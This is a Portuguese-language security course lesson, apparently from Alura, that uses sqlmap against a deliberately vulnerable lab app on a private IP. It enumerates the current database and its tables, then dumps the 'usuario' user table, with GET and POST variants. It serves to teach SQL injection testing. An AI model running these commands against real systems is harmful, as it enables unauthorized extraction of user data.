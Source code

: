O SQLMap é um script de exploração de falhas de SQL Injection.

Agora tentaremos descobrir qual banco a aplicação da Alura Shows está usando dentro do MySQL para cadastrar os usuários. Voltaremos o mesmo comando inicial - basta pressionar a seta para cima no teclado - onde passamos a URL, mas dessa vez, adicionaremos --current-db, que solicita o banco atual. O comando completo será:

```
sqlmap -u "http://192.168.121.171/alura-shows/login?email=alex%40gmail.com&senha=123&login-submit=Log+In" --current-dbCOPIAR CÓDIGO
```
Ao executar, o sqlmap responderá que a aplicação está usando é o owasp.
```
current database: 'owasp'
```
Agora tentaremos descobrir as tabelas contidas do banco owasp. Para isso, colocaremos o comando o parâmetro --tables -D owasp. O comando completo será:
```
sqlmap -u "http://192.168.121.171/alura-shows/login?email=alex%40gmail.com&senha=123&login-submit=Log+In" --tables -D owaspCOPIAR CÓDIGO
```
O sqlmap informa que o banco possui quatro tabelas, depoimento, role, usuario e usuario_role. Se acessarmos o banco de dados que instalamos para o curso, veremos que contém essas tabelas.

Pediremos para o sqlmap descarregar as informações que estão na tabela usuario. Para descarregar usamos o --dump passando a tabela -T usuario e o banco -D owasp. O comando completo será:
```
sqlmap -u "http://192.168.121.171/alura-shows/login?email=alex%40gmail.com&senha=123&login-submit=Log+In" --dump -T usuario -D owaspCOPIAR CÓDIGO
```
O sqlmap trouxe todos os resultados da tabela usuario, mostrando as informações dos usuários Alex e Fernando. Essa informações precisam estar protegidas.

Você está fazendo o teste de segurança para verificar vulnerabilidades de injeções de códigos SQL na sua aplicação, para isso, você utiliza o sqlmap com o seguinte comando:

seguinte comando:

```
sqlmap -u "http://localhost:8080/alura-shows?email=alex@gmail.com&senha=123" --dump -T usuario -D owasp
```

Mesmo se mudar para POST a vunlerabilidade ainda existe, é possível descobrir as vulnerabilidades:
```
sqlmap -u "http://192.168.121.171/alura-shows/login" --dump -T usuario -D owasp --data="email=alex@gmail.com&senha=123"
```
A opção --data é utilizada para passar os parâmetros enviados pela requisição POST, através desses parâmetros o sqlmap irá tentar fazer a injeção de código SQL